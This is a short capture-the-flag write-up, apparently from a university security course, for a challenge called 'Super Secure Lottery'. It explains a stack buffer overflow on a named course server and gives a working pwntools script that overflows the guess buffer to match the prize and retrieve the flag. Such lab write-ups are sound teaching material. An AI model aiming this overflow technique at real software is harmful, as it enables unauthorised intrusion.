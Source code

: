 # Challenge `Super Secure Lottery` writeup

- Vulnerability:
  - Buffer Overflow
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port `23161`
- Impact:
  - Allows attacker to guess the lottery

## Steps to reproduce

1. The `guess` and `prize` values are stored consecutively
2. We can overflow the `guess` array by providing a large enough input
3. If this input is symmetrical, `prize` will be equal to `guess`

The code used was:

```py
from pwn import *

session = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23161", timeout=1000)

guess_address = 0xffffd014
prize_address = 0xffffd044

session.send(b'1'* (prize_address - guess_address) * 2)
print(session.recvuntil(b'}'))
```